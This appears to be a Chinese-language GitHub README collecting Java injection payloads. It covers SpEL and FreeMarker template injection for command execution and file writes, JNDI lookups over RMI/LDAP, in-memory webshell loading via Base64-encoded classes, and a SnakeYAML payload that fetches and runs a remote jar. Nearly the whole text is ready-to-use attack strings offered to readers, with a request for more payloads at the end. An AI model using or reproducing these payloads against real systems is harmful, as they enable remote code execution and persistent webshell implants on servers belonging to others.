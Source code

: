 # Memoryshell-JavaALL
我不允许你还不会用JAVA 内存马

## SPEL 

不加模板解析的payload

T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()

加模板解析的payload

#{new java.lang.ProcessBuilder({'calc'}).start()}

可以回显时使用

new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()

可以打入内存马高版本Spring Core 受限

#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}

使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext

#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}

## FreeMarker 

执行命令

${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}

写文件

${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}

读文件

${"freemarker.template.utility.ObjectConstructor"?new()(java.io.FileWriter("/tmp/hh.txt").append("ttt").close())}

使用SPEL利用

${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}

使用SPEL 进行JNDI

${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}

使用SPEL 加载内存马

${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}

使用Jython 

<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>

## YAML

ftp 可以换为HTTP 及其他支持协议

!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]



------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
